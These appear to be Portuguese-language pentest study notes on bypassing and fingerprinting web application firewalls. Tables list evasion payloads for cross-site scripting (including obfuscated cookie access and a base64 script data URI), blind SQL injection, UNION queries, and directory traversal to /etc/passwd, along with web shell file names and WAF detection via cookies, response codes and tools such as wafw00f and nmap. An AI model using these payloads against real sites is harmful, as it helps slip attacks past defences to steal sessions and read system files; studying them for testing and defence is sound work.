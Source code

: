 ## Regras simples para Bypass em WAF
### Cross-site Scripting

| Usado normalmente | Melhor Opção |
| --- | --- |
| alert('xss') | prompt('xss') |
| alert(1) | prompt(8) |
|  | confirm('xss') |
|  | confirm(8) |
|  | alert(/xss/.source) |
|  | window\[/alert/.source](8) |

| Usado normalmente | Melhor Opção |
| --- | --- |
| alert(document.cookie) | with(document)alert(cookie) |
|  | alert(document\['cookie']) |
|  | alert(document\[/cookie/.source]) |
|  | alert(document\[/coo/.source+/kie/.source]) |

| Usado normalmente | Melhor Opção |
| --- | --- |
| \<img src=x onerror=alert(1);> | \<svg/onload=alert(1)> |
|  | \<video src=x onerror=alert(1);> |
|  | \<audio src=x onerror=alert(1);> |

| Usado normalmente | Melhor Opção |
| --- | --- |
| javascript:alert(document.cookie) | data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4= |

### Blind SQL Injection

| Usado normalmente | Melhor Opção |
| --- | --- |
| 'or 1=1 | 'or 6=6 |
|  | 'or 0x47=0x47 |
|  | or char(32)='' |
|  | or 6 is not null |

### SQL Injection

| Usado normalmente | Melhor Opção |
| --- | --- |
| UNION SELECT | UNION ALL SELECT |

### Directory Traversal

| Usado normalmente | Melhor Opção |
| --- | --- |
| /etc/passwd | /too/../etc/far/../passwd |
|  | /etc//passwd |
|  | /etc/ignore/../passwd |
|  | /etc/passwd............. |

### Web Shell

| Usado normalmente | Melhor Opção |
| --- | --- |
| c99.php | augh.php |
| r57.php |  |
| shell.aspx |  |
| cmd.jsp |  |
| CmdAsp.asp |  |

## WAF Detection and Fingerprinting
### Valor de Cookie

**Citrix Netscaler** -> Usa alguns cookies diferentes como ```ns_af``` ou ```citrix_ns_id``` ou ```NSC_```

**F5 BIG-IP ASM** -> Usa cookies começando com "TS" e continua com uma string que segue o seguinte regex:
	```
	^TS\[a-zA-Z0-9]{3,6}```

**Barracuda** -> Usa 2 cookies: ```barra_counter_session``` e ```BNI__BARRACUDA_LB_COOKIE```

### Header Rewrite

Alguns WAFs reescrevem os HTTP headers modificando o "Server" ou removendo dependendo da requisição

### HTTP Response Code

Alguns WAFs modificam o HTTP response code se a requisição for hostil

**mod_security** -> ```406 Not Acceptable```

**AQTRONIX WebKnight** -> ```999 No Hacking```

### HTTP Response Body

É possível detectar a presença de um WAF no response body

#### mod_security

![](https://github.com/SQU4NCH/eWPTX-Study-Notes/blob/main/Imagens/Pasted%20image%2020231219195354.png)

#### AQTRONIX WebKnight

![](https://github.com/SQU4NCH/eWPTX-Study-Notes/blob/main/Imagens/Pasted%20image%2020231219195403.png)

#### dotDefender

![](https://github.com/SQU4NCH/eWPTX-Study-Notes/blob/main/Imagens/Pasted%20image%2020231219195413.png)

### Close Connection

Uma função interessante presente em alguns WAFs é a ```close connection```, que serve para dropar conexões em caso de requisições maliciosas
## Tools
### wafw00f

É uma tool escrita em python e que pode detectar 20 tipos diferentes de WAF

https://github.com/EnableSecurity/wafw00f

A ferramenta utiliza técnicas similares as abordadas acima:
1. Cookies
2. Server Cloaking
3. Response Codes
4. Drop Action
5. Pre-Built-In Rules

**Uso:**
```shell
wafw00f <site>
```
### nmap

O nmap possuí um script para detecção de WAFs o ```http-waf-fingerprint```

**Uso:**
```shell
nmap --script=http-waf-fingerprint <site> -p 80
```

